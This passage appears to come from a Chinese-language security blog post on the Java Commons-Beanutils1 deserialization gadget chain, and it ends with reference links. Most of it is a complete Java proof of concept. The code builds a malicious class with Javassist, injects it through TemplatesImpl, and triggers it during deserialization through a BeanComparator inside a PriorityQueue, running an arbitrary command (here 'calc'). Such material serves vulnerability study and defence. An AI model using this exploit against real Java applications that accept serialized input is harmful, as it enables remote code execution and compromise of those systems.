 ```
        field.setAccessible(true);
        field.set(object, value);
    }

    public static void main(String[] args) throws Exception {
        // 创建恶意类，用于报错抛出调用链
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates,"_class",null);

        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        PriorityQueue queue = new PriorityQueue (2);
        queue.add(1);
        queue.add(1);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,beanComparator);

        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("result.ser"));
        out.writeObject(queue);
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("result.ser"));
        in.readObject();
    }
}
```

![image-20220308182734876](images/14.png)

相比之下也只是换了一个实现Comparator接口的类，这个类是java.lang.String 类下的一个内部私有类，其实现了Comparator 和Serializable ，且位于Java的核心代码中，兼 容性强，是一个完美替代品



参考链接

https://www.cnblogs.com/9eek/p/15123125.html

[Java反序列化之Commons-Beanutils1链 – cc (ccship.cn)](https://ccship.cn/2021/12/07/java反序列化之commons-beanutils1链/)
